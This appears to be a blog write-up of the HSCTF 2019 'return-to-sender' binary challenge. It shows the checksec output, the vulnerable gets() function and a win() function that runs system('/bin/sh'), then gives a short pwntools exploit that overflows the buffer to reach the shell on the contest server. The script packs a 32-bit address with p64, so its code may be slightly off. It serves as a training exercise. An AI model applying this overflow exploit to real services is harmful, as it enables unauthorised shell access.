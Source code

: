 Who knew the USPS could lose a letter so many times?

`nc pwn.hsctf.com 1234`

6/3/19 7:34 AM: Updated binary, SHA-1: 104fb76c3318fb44130c4a8ee50ac1a2f52d4082 return-to-sender

[return-to-sender](/blog/2019-06-08-hsctf-writeup/Return to Sender/return-to-sender)

[return-to-sender.c](/blog/2019-06-08-hsctf-writeup/Return to Sender/return-to-sender.c)

## Solution

This is a simple buffer overflow challenge.

```
$ checksec return-to-sender
[*] '/home/node/tmp/return-to-sender'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

```c
int vuln()
{
  char s; // [esp+8h] [ebp-10h]

  printf("Where are you sending your mail to today? ");
  gets(&s);
  return printf("Alright, to %s it goes!\n", &s);
}
```

As you can see, there's no stack canary and we can overflow the `s` buffer in the `vuln` function through the `gets` call. Also, there's a `win` function for us:

```c
int win()
{
  return system("/bin/sh");
}
```

Here's the exploit script:

```python
from pwn import *

sh = remote('pwn.hsctf.com', 1234)

win_addr = 0x080491B6
sh.sendlineafter('? ', 'a'*(0x10+4)+p64(win_addr))

sh.interactive()
```
